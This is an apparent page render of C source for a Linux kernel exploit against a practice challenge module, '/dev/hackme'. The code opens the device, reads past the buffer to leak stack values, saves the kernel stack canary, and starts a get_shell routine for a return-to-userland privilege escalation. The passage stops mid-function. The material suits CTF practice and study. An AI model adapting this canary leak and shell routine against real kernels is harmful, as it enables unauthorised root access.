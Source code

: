  ![Alt text](bin/image-4.png)

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

int fd_ko;
void open_module()
{
    fd_ko = open("/dev/hackme", O_RDWR);
    if (fd_ko < 0)
    {
        printf("open fail");
        exit(0);
    }
}
long int canary = 0;
void read_module()
{
    long int tmp[0x10 + 5];
    int check = read(fd_ko, tmp, sizeof(tmp));
    if (check < 0)
    {
        printf("read fail\n");
        exit(0);
    }
    for (int i = 0; i < 0x10 + 5; i++)
    {
        printf("hackme[%d]: %lp\n", i, tmp[i]);
    }
    canary = tmp[16];
}

void get_shell(void)
{
    puts("[*] Returned to userland");
```